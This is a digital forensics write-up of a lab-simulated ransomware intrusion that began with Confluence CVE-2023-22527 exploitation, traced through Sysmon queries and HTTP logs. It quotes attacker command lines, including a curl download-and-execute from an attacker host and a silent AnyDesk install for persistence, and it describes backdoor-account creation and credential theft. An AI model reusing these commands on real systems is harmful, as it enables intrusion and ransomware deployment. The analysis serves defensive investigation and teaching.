

# DFIR Investigation of an ELPACO-team Ransomware Intrusion via Confluence CVE-2023-22527

## Case Summary

In September 2026, a threat actor compromised a corporate network by exploiting a critical Remote Code Execution (RCE) vulnerability (**CVE-2023-22527**)  in a public-facing Atlassian Confluence server. The vulnerability, an OGNL injection flaw in the template engine, allowed the attacker to execute arbitrary commands on the server without authentication by sending crafted POST requests to the `/template/aui/text-inline.vm` endpoint.

Upon gaining initial access, the threat actor deployed a **Metasploit Meterpreter** reverse shell payload named `HAHLGiDDb.exe`, establishing command and control (C2) communications back to their infrastructure. This provided the attacker with an interactive session on the compromised Confluence server, which served as the initial foothold into the network.

To establish persistence and enable hands-on-keyboard access, the threat actor downloaded and silently installed **AnyDesk** remote desktop software on the compromised server. The installation was performed using the `--install` and `--start-with-win` flags, configuring AnyDesk to run as a Windows service under the `NT AUTHORITY\NETWORK SERVICE` account, ensuring it would automatically start on system reboot. The attacker then set an unattended access password, allowing them to reconnect at will without user interaction.

Simultaneously, the threat actor executed a batch script (`u1.bat`) to create a local administrator account named **"noname"** using `net user` and `net localgroup administrators` commands. This provided a secondary persistence mechanism: a dedicated Windows account with full administrative privileges that could be used to log in through AnyDesk with an isolated desktop session, reducing the risk of detection by legitimate administrators.

The threat actor then connected to the server via AnyDesk and authenticated to Windows using the newly created **"noname"** account (Logon Type 10 — Remote Interactive), establishing a clean desktop session separate from any active administrator sessions.

For **privilege escalation**, the attacker attempted to exploit **Zerologon (CVE-2020-1472)** against the domain controller to reset the computer account password. However, this attempt failed as the Domain Controller detected and blocked the non-compliant Netlogon secure channel connection (Netlogon Event ID 5836). Consequently, the adversary pivoted to **Mimikatz** to harvest credentials locally from LSASS memory on `vulnsrv` , extracting Domain Administrator NTLM hashes to facilitate Pass-the-Hash (PtH) attacks.

During the **discovery** phase, the threat actor utilized **NetScan** (SoftPerfect Network Scanner) to map the internal network, identifying live hosts, open ports, and available shares across the domain. This provided the attacker with a comprehensive view of the environment, including file servers, domain controllers, and other high-value targets for lateral movement.

Using the harvested domain admin credentials, the threat actor performed **lateral movement** across the network using **WMIExec** (Windows Management Instrumentation), executing commands remotely on multiple machines. On each target, **Windows Defender** was disabled remotely to prevent detection of the ransomware payload.

For the **impact** phase, the threat actor deployed **ELPACO-team**, a variant of the **Mimic ransomware** family. The ransomware was delivered as a **7-Zip Self-Extracting Archive (SFX)** that, upon execution, silently extracted its components to a staging directory at `%LocalAppData%\{F6A3737E-E3B0-8956-8261-0121C68105F3}\`. The main orchestrator binary **masqueraded** as a legitimate system process by renaming itself to **`svhostss.exe`** (a deliberate typo-squat of `svchost.exe`), a defense evasion technique.

A defining characteristic of this ransomware variant is its abuse of the legitimate **Everything** search utility (`Everything.exe`) by Voidtools. Rather than performing slow recursive directory traversal, the ransomware leveraged Everything's ability to query the NTFS Master File Table (MFT) and USN Journal to rapidly index all target files on the system within seconds — a technique that significantly accelerated the encryption process.

Once indexing was complete, the ransomware encrypted files across the compromised systems, appending the **`.ELPACO-team`** extension to each affected file. A ransom note named **`Decryption_INFO.txt`** was dropped in every directory containing encrypted files. The note instructed victims to contact the threat actor via email (`de_tech@tuta.io`) or Telegram (`@Online7_365`) for decryption key negotiation.

<figure><figcaption><p>DetectionLab Network Diagram</p></figcaption></figure>

## Initial Triage and Ransomware Discovery <a href="#initial-triage-and-ransomware-discovery" id="initial-triage-and-ransomware-discovery"></a>


_Please note that the ransomware binaries (`ELPACO-team.exe` and `svhostss.exe`), as well as the integrated usage of the `Everything.exe` utility for reconnaissance, are part of a custom simulation built specifically for this controlled lab environment. While precisely engineered to mimic the real-world Tactics, Techniques, and Procedures (TTPs)—such as automated Master File Table enumeration, mass file encryption, and registry persistence—these are safe, simulated artifacts created solely for educational and digital forensic research purposes rather than original in-the-wild malware._


The investigation began at the end of the attack lifecycle. Critical servers were found paralyzed, with files appended with the `.ELPACO-team` extension. Across the affected directories, the threat actor distributed a ransom note named `Decryption_INFO.txt` .

On the Desktop and across multiple directories under `C:\LabData`, I confirmed files were encrypted with the `.ELPACO-team` extension ([T1486](https://attack.mitre.org/techniques/T1486/)).

<figure><figcaption><p>Files encrypted with .ELPACO-team extension</p></figcaption></figure>

Also, I found the ransom note called `Decryption_INFO.txt` dropped in Desktop and every directory containing encrypted files, which contained Decryption ID, Telegram User and email addresses for contacting the threat actors.

<figure><figcaption><p>The ransom note containing email addresses and telegram user for the threat actors</p></figcaption></figure>

My next goal is to identify the process that encrypted the files and dropped the ransom note, in order to understand how the ransomware was delivered to these hosts by tracing the ransomware activities back to their origin.

Before proceeding, I verified the logging mechanisms in the environment and confirmed the presence of Sysmon.

By filtering for files with the `.ELPACO-team` extension, I discovered that `svhostss.exe` was responsible for encryption, with the last file encrypted on `2026-09-23` at  `10:06:04` .

`file.extension: "ELPACO-team"`&#x20;

<figure><figcaption><p>svhostss.exe, the process responsible for file encryption</p></figcaption></figure>

Through the analysis of the compromised hosts, I determined that the ransomware was deployed and executed on `FILE-server` and `BACKUP`.

<figure><figcaption><p>.ELPACO-team extension only appearing on FILE-server, BACKUP</p></figcaption></figure>

To trace `svhostss.exe` back to its origin, I filtered file creation events on `FILE-server` and sorted them in chronological order. At 10:06:01, the logs revealed that `ELPACO-team.exe` created `svhostss.exe` on disk, indicating that the executable was likely responsible for extracting or staging the ransomware component.

`host.hostname: "FILE-server" and event.code: "11" and "svhostss.exe"`

<figure><figcaption></figcaption></figure>

I then focused on `ELPACO-team.exe` to determine what was executed and how `svhostss.exe` was dropped onto the compromised hosts. I narrowed my scope to `FILE-server` for faster querying:

`host.hostname: "FILE-server" and file.path: *ELPACO-team.exe*`

I found 6 events in total. One of the events revealed that `ELPACO-team.exe` was deployed by the `ELPACO-team.exe` residing on the Desktop, which served as the self-extracting archive. This entire activity was executed under the compromised user account `NONAME` within the `DETECTIONLAB` domain.

<figure><figcaption></figcaption></figure>

My next step was to determine how this file was staged and executed on the system.

`host.hostname: "FILE-server" and event.code: ("1" or "11") and *Desktop\\ELPACO-team.exe*`

The file `ELPACO-team.exe` was initially created on the Desktop at `10:05:57.963` UTC by `Explorer.EXE`. Shortly afterward, at `10:06:00.509` UTC, the executable was launched by `explorer.exe`, indicating execution from an interactive Windows desktop session. At this stage, however, the available telemetry was insufficient to determine whether the session originated locally or through a remote-access mechanism.

To determine the origin of that interactive session, I investigated network activity immediately preceding the execution of `ELPACO-team.exe`.

<figure><figcaption><p>ELPACO-team.exe file creation.</p></figcaption></figure>

<figure><figcaption><p>ELPACO-team.exe process creation.</p></figcaption></figure>

My next objective was to determine how the threat actor gained interactive access to `FILE-server` and identify the lateral movement technique used to reach the host.

**To determine how the threat actor gained remote access to `FILE-server` and identify the lateral movement mechanism, I examined Sysmon network connection events (Event ID 3) targeting the default RDP port, TCP/3389.**

`host.hostname: "FILE-server" and event.code: "3" and destination.port: 3389`

**The query returned four inbound TCP/3389 connection events. The most relevant connection occurred at `10:03:02.862` UTC, shortly before the ransomware payload was executed. Sysmon network telemetry showed `svchost.exe` handling an inbound connection from `VULNSRV` (`192.168.30.10:49974`) to `FILE-server` (`192.168.20.50:3389`).**

Corroborating the Sysmon network telemetry, Windows Security Event ID 4624 recorded a successful network logon (Logon Type 3) at `10:03:02`, using NTLM V2 authentication for the compromised account `DETECTIONLAB\NONAME`. The authentication originated from `VULNSRV` (`192.168.30.10`), matching the source of the previously observed TCP/3389 connection. Although Logon Type 3 alone does not confirm an interactive RDP logon, its timing and source, when correlated with the `mstsc.exe` execution and RDP network activity, strongly support RDP as the lateral movement mechanism.([T1021.001](https://attack.mitre.org/techniques/T1021/001/))

<figure><figcaption></figcaption></figure>

Having traced the RDP connection back to `VULNSRV` (`192.168.30.10`), I pivoted the investigation to the suspected patient-zero host to reconstruct the attack chain further backward toward the original external access vector.

`host.hostname: "VULNSRV" and event.code: "3" and destination.ip: "192.168.20.50" and destination.port: 3389`&#x20;

At `10:03:02.661`, Sysmon recorded an outbound connection generated by the native Windows Remote Desktop client `mstsc.exe` (`C:\Windows\System32\mstsc.exe`) under the `noname` account. The connection originated from `VULNSRV` (`192.168.30.10:49974`) and targeted `FILE-server` (`192.168.20.50:3389`). The matching source port, destination, timestamps, and process context strongly support RDP as the lateral movement mechanism between the two hosts.

<figure><figcaption></figcaption></figure>

Next, I investigated the execution lineage of `mstsc.exe` to determine how the threat actor launched the Remote Desktop client and identify its parent process.

`host.hostname: "VULNSRV" and event.code: "1" and process.name: "mstsc.exe"`&#x20;

Process lineage analysis showed that `mstsc.exe` was launched by `netscan.exe` with the command line `mstsc.exe /v:192.168.20.50`. This strongly suggests that the operator initiated the RDP connection through SoftPerfect Network Scanner, consistent with hands-on-keyboard activity on `VULNSRV`.

<figure><figcaption></figcaption></figure>

My next objective was to determine how `netscan.exe` was introduced onto `VULNSRV` and identify the remote-access mechanism the adversary used before beginning internal reconnaissance.

`host.hostname: "VULNSRV" and event.code: "11" and file.path: "`_`netscan`_`"`

Sysmon file-creation telemetry revealed that `netscan.exe` was written to the `noname` user's Desktop by an AnyDesk process at `09:37:58`. This provides strong evidence that AnyDesk's file-transfer functionality was used to stage NetScan on `VULNSRV` before internal reconnaissance and subsequent RDP-based lateral movement.

<figure><figcaption></figcaption></figure>

#### Tracing the AnyDesk Deployment on VULNSRV

After identifying AnyDesk as the process responsible for staging `netscan.exe` on `VULNSRV`, I pivoted further backward in the timeline to determine when the remote-access utility was first introduced onto the host and how it was configured.

`host.hostname: "VULNSRV" and event.code: ("1" or "11") and (process.name: *AnyDesk* or file.path: *AnyDesk*)`

<figure><figcaption></figcaption></figure>

At `09:32:29.455` UTC, Sysmon Event ID 11 recorded the creation of `AnyDesk.exe` at `C:\Program Files\Atlassian\Confluence\AnyDesk.exe`. The file was written by a randomly named executable, `HAHLGiDDb.exe`, executing from the `NETWORK SERVICE` temporary directory under the `NT AUTHORITY\NETWORK SERVICE` account.

This was a significant pivot point in the investigation. Rather than appearing in a typical user-controlled directory such as Downloads or Desktop, the AnyDesk binary was written directly into the Atlassian Confluence installation directory by a process operating in a service-account context. While this event alone does not establish how the Confluence server was initially compromised, it links the earliest observed AnyDesk artifact to suspicious server-side activity and makes `HAHLGiDDb.exe` the next process of interest.

<figure><figcaption></figcaption></figure>

Approximately 36 seconds later, at `09:33:05.811` UTC, Sysmon Event ID 1 showed the newly staged `AnyDesk.exe` being executed by `cmd.exe` under the `NT AUTHORITY\SYSTEM` account. The recorded command line was:

`anydesk.exe --install C:\programdata\anydesk --start-with-win --silent`

The command-line arguments show that AnyDesk was installed silently and configured to start automatically with Windows. The execution under the `SYSTEM` account further indicates that the installation was performed with high privileges. At this stage of the investigation, however, the telemetry does not yet explain how the preceding activity obtained SYSTEM-level execution.([T1219](https://attack.mitre.org/techniques/T1219/))

<figure><figcaption></figcaption></figure>

At `09:33:07.653` UTC, less than two seconds after the AnyDesk installation process began, Sysmon Event ID 11 recorded `AnyDesk.exe` creating the shortcut `AnyDesk.lnk` inside the Windows Startup folder:

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\AnyDesk.lnk`

This artifact corroborates the `--start-with-win` installation argument and demonstrates that AnyDesk established a logon-based persistence mechanism on `VULNSRV`, allowing the remote-access software to execute automatically during subsequent user logons. ([T1547.001](https://attack.mitre.org/techniques/T1547/001/))

The resulting timeline shows that AnyDesk was staged within the Confluence directory at `09:32:29`, silently installed as `SYSTEM` at `09:33:05`, and configured for persistence seconds later. Several minutes afterward, the same remote-access software was observed writing `netscan.exe` to the `noname` user's Desktop, linking the earlier AnyDesk deployment to the subsequent internal reconnaissance and RDP-based lateral movement.

The next investigative pivot therefore became `HAHLGiDDb.exe`, the process responsible for creating the original AnyDesk binary. Identifying its parent process and command line would help reconstruct the attack chain further backward toward the compromise of the Confluence service.

**Having identified `HAHLGiDDb.exe` as the process responsible for creating the initial AnyDesk binary, I pivoted further backward to determine how this executable was introduced onto `VULNSRV` and what process had launched it.**

<figure><figcaption></figcaption></figure>

At `09:31:13.021` UTC, Sysmon Event ID 1 showed `HAHLGiDDb.exe` executing from the `NETWORK SERVICE` temporary directory. Its parent process was `cmd.exe`, and the recorded command line revealed that the executable had first been retrieved over HTTP from `10.10.10.10:8080` using the native Windows `curl` utility and then immediately launched in the background:

`cmd.exe /c "curl -sKo %TEMP%\HAHLGiDDb.exe http://10.10.10.10:8080/HAHLGiDDb.exe & start /B %TEMP%\HAHLGiDDb.exe"`

This established that the payload was transferred onto the host and executed under the `NT AUTHORITY\NETWORK SERVICE` context. However, the origin of the `cmd.exe` process itself was still unknown, making its parent process the next investigative pivot.([T1105](https://attack.mitre.org/techniques/T1105/))

**Having established that `HAHLGiDDb.exe` was downloaded and executed through `cmd.exe`, I pivoted one step further backward to identify the process responsible for spawning the command shell.**

<figure><figcaption></figcaption></figure>

**Sysmon Event ID 1 revealed that the `cmd.exe` process responsible for downloading `HAHLGiDDb.exe` was spawned directly by the Confluence Tomcat service, `C:\Program Files\Atlassian\Confluence\bin\tomcat9.exe`, at `09:31:12.761` UTC. Both processes were executing under the `NT AUTHORITY\NETWORK SERVICE` account.**

**The child command shell subsequently retrieved `HAHLGiDDb.exe` from `http://10.10.10.10:8080/HAHLGiDDb.exe` and executed it from the service account's temporary directory. This process lineage provides direct evidence that arbitrary operating-system commands were executed from the Confluence application service context.(**[T1059.003](https://attack.mitre.org/techniques/T1059/003/))

**At this stage, the telemetry establishes server-side command execution originating from the Confluence Tomcat process; however, the mechanism that triggered this execution remained unknown. Further investigation was required to identify the original access vector and determine how the attacker first achieved code execution through the Confluence service.**

To determine whether the payload download represented the attacker's first command execution through the Confluence service, I expanded the investigation window and reviewed earlier child processes spawned by `tomcat9.exe`.

<figure><figcaption></figcaption></figure>

**No earlier suspicious child processes were observed from `tomcat9.exe` within the available telemetry. Therefore, the `whoami.exe` execution at `09:28:57.151` UTC represents the earliest observed evidence of server-side command execution through the Confluence service. The command executed under the `NT AUTHORITY\NETWORK SERVICE` context, consistent with an operator validating the privileges and execution context of the compromised application service.** **(**[T1033](https://attack.mitre.org/techniques/T1033/))

**Having identified `whoami.exe` as the earliest observed suspicious child process spawned by the Confluence Tomcat service, I examined network activity immediately preceding its execution to identify the remote system communicating with the application.**

<figure><figcaption></figcaption></figure>

**Sysmon Event ID 3 revealed a TCP connection at `09:28:46.293` UTC from `10.10.10.10:43448` to `VULNSRV` (`192.168.30.10`) on TCP port `8090`, the port associated with the Confluence service. The connection was handled by `tomcat9.exe` under the `NT AUTHORITY\NETWORK SERVICE` account.**

**Approximately 10.8 seconds later, the same Tomcat process spawned `whoami.exe`. While the network event alone does not establish the contents of the request or the technique used to trigger command execution, the close temporal correlation identifies `10.10.10.10` as a significant source of interest in the investigation.**

**This IP address became even more significant because the same host was later referenced as the HTTP source from which `HAHLGiDDb.exe` was downloaded at `09:31:12` UTC. This correlation suggests that the system communicating with the Confluence service was also used to stage subsequent tooling, warranting further investigation into the HTTP activity preceding the initial `whoami.exe` execution.**

**To determine what activity immediately preceded the first observed command execution, I reviewed the Confluence HTTP access logs around `09:28:57` UTC and correlated them with the Sysmon timeline.**

```
[23/Sep/2026:02:28:49 -0700] - http-nio-8090-exec-7 10.10.10.10 GET / HTTP/1.1 302 3818ms - - python-requests/2.32.5
[23/Sep/2026:02:28:57 -0700] - http-nio-8090-exec-1 10.10.10.10 GET /login.action?os_destination=%2Findex.action&permissionViolation=true HTTP/1.1 200 7135ms 7554 - python-requests/2.32.5
[23/Sep/2026:02:28:57 -0700] - http-nio-8090-exec-9 10.10.10.10 POST /template/aui/text-inline.vm HTTP/1.1 200 441ms 6858 - python-requests/2.32.5
```

**The access logs revealed that `10.10.10.10` first contacted the Confluence application using the Python Requests library. At `02:28:57 -0700` (`09:28:57 UTC`), the same source issued a `POST` request to `/template/aui/text-inline.vm`, which returned HTTP `200`.**

**Critically, Sysmon recorded `tomcat9.exe` spawning `whoami.exe` at `09:28:57.151` UTC—the same second as the POST request. The `/template/aui/text-inline.vm` endpoint is associated with the template-injection attack path used to exploit Confluence CVE-2023-22527. The precise temporal correlation between the malicious-looking HTTP request and the resulting process execution provides strong evidence that the Confluence server was exploited through CVE-2023-22527 to achieve remote code execution.** **(T1190 — Exploit Public-Facing Application)**

> **Because the standard access log does not preserve the POST body, the injected command itself is not visible in the HTTP telemetry; however, the endpoint, source, timing, and resulting `whoami.exe` execution strongly correlate the request with the observed server-side command execution.**

**Version verification showed that the compromised server was running Confluence `8.5.3`. According to Atlassian's advisory, versions `8.5.0` through `8.5.3` are affected by CVE-2023-22527, while `8.5.4` contains the corresponding fix. This confirmed that the application version observed in the environment was vulnerable to the template-injection RCE technique associated with the suspicious `/template/aui/text-inline.vm` request.** [Atlassian Support](https://support.atlassian.com/atlassian-knowledge-base/kb/faq-for-cve-2023-22527/?utm_source=chatgpt.com)

**Correlating the vulnerable Confluence version, the suspicious POST request to `/template/aui/text-inline.vm`, and the near-simultaneous execution of `whoami.exe` by `tomcat9.exe` provides high-confidence evidence that the initial compromise occurred through exploitation of CVE-2023-22527.** **(**[**T1190**](https://attack.mitre.org/techniques/T1190/)**)**
